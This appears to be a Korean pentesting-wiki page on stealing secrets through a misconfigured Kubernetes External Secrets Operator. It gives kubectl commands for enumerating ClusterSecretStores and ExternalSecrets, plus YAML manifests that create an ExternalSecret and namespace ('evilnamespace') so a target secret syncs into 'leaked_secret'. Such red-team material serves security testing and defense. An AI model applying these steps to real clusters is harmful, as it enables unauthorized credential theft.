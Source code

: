 # External Secret Operator

**이 페이지의 원래 저자는** [**Fares**](https://www.linkedin.com/in/fares-siala/)입니다.

이 페이지는 잘못 구성된 ESO 또는 ESO를 사용하여 비밀을 동기화하는 애플리케이션에서 비밀을 훔치는 방법에 대한 몇 가지 팁을 제공합니다.

## Disclaimer

아래에 보여지는 기술은 특정 조건이 충족될 때만 작동할 수 있습니다. 예를 들어, 이는 비밀이 귀하가 소유하거나 침해한 네임스페이스에서 동기화되도록 허용하는 요구 사항에 따라 달라집니다. 스스로 알아내야 합니다.

## Prerequisites

1. 네임스페이스에서 관리자 권한이 있는 kubernetes / openshift 클러스터에 발판을 마련해야 합니다.
2. 클러스터 수준에서 최소한 ExternalSecret에 대한 읽기 권한이 필요합니다.
3. ESO가 귀하의 비밀을 동기화할 수 있도록 허용하는 필수 레이블/주석 또는 그룹 구성원이 필요한지 확인해야 합니다. 운이 좋다면 정의된 비밀을 자유롭게 훔칠 수 있습니다.

### Gathering information about existing ClusterSecretStore

사용자가 이 리소스를 읽을 수 있는 충분한 권한이 있다고 가정하고, 먼저 기존 _**ClusterSecretStores**_를 나열하는 것부터 시작합니다.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 열거

ClusterSecretStore 이름이 _**mystore**_인 것을 찾았다고 가정해 보겠습니다. 관련된 externalsecret을 열거하십시오.
```sh
kubectl get externalsecret -A | grep mystore
```
_이 리소스는 네임스페이스 범위로 설정되어 있으므로, 어떤 네임스페이스를 찾아야 할지 모른다면 -A 옵션을 추가하여 모든 네임스페이스를 검색하세요._

정의된 externalsecret 목록을 얻을 수 있습니다. _**mysecret**_라는 externalsecret 객체가 _**mynamespace**_ 네임스페이스에 정의되어 사용되고 있다고 가정해 보겠습니다. 이 비밀이 어떤 종류의 비밀을 보유하고 있는지에 대한 정보를 좀 더 수집하세요.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 조각 조립하기

여기에서 하나 이상의 비밀 이름(Secret 리소스에 정의된 대로)을 가져올 수 있습니다. 다음과 유사한 출력을 얻을 수 있습니다:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
지금까지 우리는 다음을 얻었습니다:

- ClusterSecretStore의 이름
- ExternalSecret의 이름
- 비밀의 이름

이제 필요한 모든 것을 갖추었으므로, ExternalSecret을 생성할 수 있습니다(그리고 궁극적으로 새 비밀을 동기화하는 데 필요한 전제 조건을 준수하기 위해 새 Namespace를 패치/생성할 수 있습니다):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
몇 분 후, 동기화 조건이 충족되면 네임스페이스 내에서 유출된 비밀을 볼 수 있어야 합니다.
```sh
kubectl get secret leaked_secret -o yaml
```
## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

